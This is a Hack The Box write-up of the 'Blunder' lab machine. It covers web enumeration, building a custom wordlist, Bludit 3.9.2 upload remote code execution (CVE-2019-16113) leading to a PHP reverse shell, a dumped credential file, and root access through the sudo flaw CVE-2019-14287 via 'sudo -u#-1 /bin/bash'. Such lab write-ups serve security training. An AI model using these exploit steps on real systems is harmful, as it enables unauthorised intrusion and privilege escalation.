

# Resolution summary

## Improved skills

- Wordlist customization
- Python coding
- CVE research
- Manual exploitation
- Configuration file review

## Used tools

- nmap
- gobuster
- cewl
- burpsuite
- crackstation

---

# Information Gathering

Enumerated open TCP ports:

```bash
root@kali:/HackTheBox/Machine/Blunder# nmap 10.10.10.191 -sV -sC -O -A --script=banner -oA nmap.txt
PORT   STATE  SERVICE VERSION
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (88%), Linux 3.1 (88%), Linux 3.2 (88%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), OpenWrt 0.9 - 7.09 (Linux 2.4.30 - 2.4.34) (87%), OpenWrt White Russian 0.9 (Linux 2.4.30) (87%), Asus RT-AC66U router (Linux 2.6) (87%), Asus RT-N16 WAP (Linux 2.6) (87%), Asus RT-N66U WAP (Linux 2.6) (87%)
No exact OS matches for host (test conditions non-ideal).
```

# Enumeration

## Port 80 - HTTP (Apache httpd 2.4.41)

### Enumeration

Enumerated web files and directories:

```bash
root@kali:/HackTheBox/Machine/Blunder# gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x .html,.php,.txt,.old
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.191/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt,old
[+] Timeout:        10s
===============================================================
2020/06/03 14:14:29 Starting gobuster
===============================================================
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

Enumerated todo.txt:

```bash
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

Enumerated install.php:


Documented about the Bludit structure from the [official site](https://www.bludit.com/):


Bludit 3.9.2

### Password Guessing to bypass the login form

Generating a custom wordlist:

```bash
root@kali:/HackTheBox/Machine/Blunder# cewl -m 5 -w customList.txt http://10.10.10.191
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:/mnt/hgfs/ownCloud/Documents/CTF/HackTheBox/Machine/Blunder/files# tail customList.txt 
Blunder
Pagination
HackTheBox
typically
visited
simple
things
contact
small
story
```

Bruteforcing the login form:

[Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)


# Exploitation

## CVE-2019-16113 - remote code execution via bl-kernel/ajax/upload-images.php

>[!warning]
>Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

[https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

As said in the github thread listed above, Bludit 3.9.2 present an RCE vulnerability in an authenticated site section, in detail the vulnerable function is the images upload.
Due to some bad checks, it is possible to upload an image with some code injected into an arbitrary folder, uploading a .htaccess file and execute the code injected into the image.

1. Using Burp Suite we intercept and edit the image upload request in order to arbitrary change the path where the image will be saved (editing the uuid field) and injecting our php payload.
    
    
    
    Server response is a 200 OK, meaning that the file has been uploaded
    
    
    
2. Using the Burp Suite repeater function we edit the previous request in order to upload an .htaccess file that allow the image's injected code execution.
    
    
    
    

>[!note]
>The server responds with an error message, however the file has been uploaded anyway

3. Sending a GET request to the image, we are executing the code injected into.
    
    
    
4. Now that we have a php reverse shell on the server we just have to listen with netcat waiting for the connection and run the php file.
    
    
    
    
    

# Lateral Movement to Hugo

Enumerating /bl-content/databases/users.php:

```php
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",  
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```


# Privilege Escalation

## CVE-2019-14287 - sudo privilege escalation

Enumerated sudo privileges:

```bash
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

hugo can't run `/bin/bash` as root. However, a rapid google research reveals that for **sudo 1.8.28** or less exists a public exploit (47502) that allow to perform privilege escalation executing commands as user "#-1".

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47502)

>[!warning]
>Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo#
```

# Trophy

>[!quote]
>Persistence is very important. You should not give up unless you are forced to give up.
>
>\- Elon Musk
